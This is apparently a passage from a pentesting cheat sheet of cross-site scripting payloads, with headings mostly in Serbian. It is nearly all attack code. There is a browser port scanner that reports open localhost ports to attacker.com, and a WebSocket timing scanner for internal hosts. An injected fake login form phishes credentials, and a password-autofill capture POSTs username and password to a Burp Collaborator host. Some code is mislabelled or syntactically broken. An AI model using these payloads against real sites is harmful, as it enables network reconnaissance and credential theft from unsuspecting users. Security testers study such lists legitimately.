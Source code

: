 ```javascript
const checkPort = (port) => { fetch(http://localhost:${port}, { mode: "no-cors" }).then(() => { let img = document.createElement("img"); img.src = http://attacker.com/ping?port=${port}; }); } for(let i=0; i<1000; i++) { checkPort(i); }
```

### Port Scanner (websockets)

### Скенер портов (вебсокети)

```python
var ports = [80, 443, 445, 554, 3306, 3690, 1234];
for(var i=0; i<ports.length; i++) {
var s = new WebSocket("wss://192.168.1.1:" + ports[i]);
s.start = performance.now();
s.port = ports[i];
s.onerror = function() {
console.log("Port " + this.port + ": " + (performance.now() -this.start) + " ms");
};
s.onopen = function() {
console.log("Port " + this.port+ ": " + (performance.now() -this.start) + " ms");
};
}
```

_Kratka vremena ukazuju na odgovarajući port_ _Duža vremena ukazuju na nedostatak odgovora._

Pregledajte listu zabranjenih portova u Chrome [**ovde**](https://src.chromium.org/viewvc/chrome/trunk/src/net/base/net\_util.cc) i u Firefox-u [**ovde**](https://www-archive.mozilla.org/projects/netlib/portbanning#portlist).

### Polje za traženje akreditacija

```markup
<style>::placeholder { color:white; }</style><script>document.write("<div style='position:absolute;top:100px;left:250px;width:400px;background-color:white;height:230px;padding:15px;border-radius:10px;color:black'><form action='https://example.com/'><p>Your sesion has timed out, please login again:</p><input style='width:100%;' type='text' placeholder='Username' /><input style='width: 100%' type='password' placeholder='Password'/><input type='submit' value='Login'></form><p><i>This login box is presented using XSS as a proof-of-concept</i></p></div>")</script>
```

### Snimanje automatskog popunjavanja lozinki

```javascript
<b>Username:</><br>
<input name=username id=username>
<b>Password:</><br>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

